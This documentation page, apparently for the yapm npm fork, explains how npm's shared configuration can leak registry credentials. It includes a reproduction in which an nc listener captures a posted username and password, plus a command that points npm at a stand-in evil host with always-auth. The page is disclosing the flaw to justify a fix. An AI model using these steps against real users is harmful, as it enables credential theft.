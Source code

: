 Registry-specific configuraion: security fixes
----------------------------------------------

`npm` has one configuration for all registries. If you're using different registries, `npm` can leak your credentials from one registry to another. Also, user can be tricked to expose his credentials with a crafted command-line string.

`yapm` has separate configurations for each registry, which means this flaw doesn't exist anymore. See [here](multireg-conf.md) for details about how it's done.

It means that if you authenticated to one registry, but request another one, it can expose sensitive information to that registry. It's extremely important if you use multiple registries administered by different people.

Think about a browser that shares authentication info with all websites. If one website is storing a cookie, your browser will sent it with all requests. If you use just one website, this approach is good. But if you use several of them, this is a critical security flaw.

### This is how you can replicate this bug:

Authenticate yourself in the main registry:

```
$ npm adduser --registry http://registry.npmjs.org/
```

Create and publish a new package:

```
$ mkdir test ; cd test ; echo '{"name":"test","version":"0.0.0"}' > package.json
$ npm publish --registry http://localhost:8080/
```

Listen for all requests on some port in a separate terminal:

```
$ nc -l 8080
POST /_session HTTP/1.1
host: localhost:8080
accept: application/json
content-type: application/json
content-length: 40
Connection: keep-alive

{"name":"test","password":"test"}
```

Do you see it? `npm` is leaking your password to another registry, even though you didn't write it explicitly.

### always-auth issues

It is getting even worse with `always-auth` setting on.

```
$ npm install foobar --reg http://evilsite.example.com/ --always-auth=true
```

